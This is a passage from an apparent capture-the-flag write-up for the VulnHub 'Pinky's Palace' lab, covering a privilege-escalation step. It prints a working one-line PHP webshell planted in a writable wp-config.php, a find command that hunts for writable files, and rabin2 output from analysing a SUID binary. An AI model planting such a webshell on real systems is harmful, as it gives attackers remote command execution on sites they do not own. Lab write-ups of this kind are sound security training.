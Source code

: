 Inside the home folder is a executable named `qsub`, it has a SUID for the user *pinky* set. Only `pinky` or `www-data` are having permissions to it. As for now, we didn't find any way to get access as `pinky`. So let's focus on `www-data`.

With `find / -user www-data -perm -o+w 2>&1 | grep -v "Permission denied"` we search for all world writeable files owned by user `www-data`. And, surprise, `/var/www/html/apache/wp-config.php` is writeable. I placed a tiny webshell there: `<?php if(isset($_GET['c'])) echo "<pre>"; system($_GET['c']); echo "</pre>"; ?>`. To retrieve the binary I entered that URL: `http://pinkydb/wp-config.php?c=xxd /home/stefano/tools/qsub`, this will show a hexadecimal notation of the ELF. Simply retrieve it via curl and revert it to a binary. Also nice to have a first peek at it.

## 1st binary

So we have the file. Let's look inside to find out what the password is and what the binary does.

```
root@kali:~/vulnhub/pinkypalace/qsub# rabin2 -I -M -z -i qsub
[Main]
vaddr=0x00000a97 paddr=0x00000a97
[Imports]
   1 0x00000850  GLOBAL    FUNC getenv
   2 0x00000000    WEAK  NOTYPE _ITM_deregisterTMCloneTable
   3 0x00000860  GLOBAL    FUNC puts
   4 0x00000870  GLOBAL    FUNC setresuid
   5 0x00000880  GLOBAL    FUNC strlen
   6 0x00000890  GLOBAL    FUNC setresgid
   7 0x000008a0  GLOBAL    FUNC system
   8 0x000008b0  GLOBAL    FUNC printf
   9 0x000008c0  GLOBAL    FUNC geteuid
  10 0x00000000  GLOBAL    FUNC __libc_start_main
  11 0x000008d0  GLOBAL    FUNC strcmp
  12 0x00000000    WEAK  NOTYPE __gmon_start__
  13 0x000008e0  GLOBAL    FUNC getegid
  14 0x000008f0  GLOBAL    FUNC asprintf
  15 0x00000000    WEAK  NOTYPE _Jv_RegisterClasses
  16 0x00000900  GLOBAL    FUNC __isoc99_scanf
  17 0x00000910  GLOBAL    FUNC exit
  18 0x00000000    WEAK  NOTYPE _ITM_registerTMCloneTable
  19 0x00000000    WEAK    FUNC __cxa_finalize
   2 0x00000000    WEAK  NOTYPE _ITM_deregisterTMCloneTable
  10 0x00000000  GLOBAL    FUNC __libc_start_main
  12 0x00000000    WEAK  NOTYPE __gmon_start__
  15 0x00000000    WEAK  NOTYPE _Jv_RegisterClasses
  18 0x00000000    WEAK  NOTYPE _ITM_registerTMCloneTable
  19 0x00000000    WEAK    FUNC __cxa_finalize
000 0x00000c58 0x00000c58  52  53 (.rodata) ascii /bin/echo %s >> /home/pinky/messages/stefano_msg.txt
001 0x00000c8d 0x00000c8d  13  14 (.rodata) ascii %s <Message>\n
002 0x00000c9b 0x00000c9b   4   5 (.rodata) ascii TERM
003 0x00000ca0 0x00000ca0  20  21 (.rodata) ascii [+] Input Password: 
004 0x00000cb8 0x00000cb8  20  21 (.rodata) ascii Bad hacker! Go away!
005 0x00000cd0 0x00000cd0  31  32 (.rodata) ascii [+] Welcome to Question Submit!
006 0x00000cf0 0x00000cf0  23  24 (.rodata) ascii [!] Incorrect Password!
arch     x86
binsz    11394
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     c
```